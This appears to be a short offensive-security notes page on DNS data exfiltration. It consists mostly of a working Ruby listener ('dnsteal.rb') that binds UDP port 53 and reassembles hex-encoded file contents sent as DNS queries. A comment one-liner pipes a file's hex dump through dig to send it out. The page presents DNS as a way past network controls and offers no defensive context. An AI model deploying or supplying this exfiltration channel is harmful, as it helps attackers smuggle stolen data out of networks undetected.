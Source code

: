# DNS 


## DNS Data Exfiltration 
DNS out-band connection is usually allowed in local networks, which is the major benefits of using DNS to transfer data to external server. 

**dnsteal.rb**
```ruby
#!/usr/bin/env ruby
#
# for c in $(xxd -p image.jpg); do dig @localhost $c; done
# 
require 'socket'

if ARGV.size < 1
  puts "[+] sudp ruby #{__FILE__} <FILENAME>"
  exit
else
  file = ARGV[0]
end

# Open UDP Socket and bind it to port 53 on all interfaces
udpsoc = UDPSocket.new
udpsoc.bind('0.0.0.0', 53)

begin

  data     = ''
  data_old = ''
  
  loop do
    response = udpsoc.recvfrom(1000)
    response = response[0].force_encoding("ISO-8859-1").encode("utf-8")
    data = response.match(/[a-f0-9]([a-f0-9]).*[a-f0-9]([a-f0-9])/i).to_s
    
    File.open(file, 'a') do |d|
      d.write [data].pack("H*") unless data == data_old
      puts data unless data == data_old
    end
    
    data_old = data 
  end

rescue Exception => e
  puts e
end
```






<br><br><br>
---
- [dnsteal.py](https://github.com/m57/dnsteal)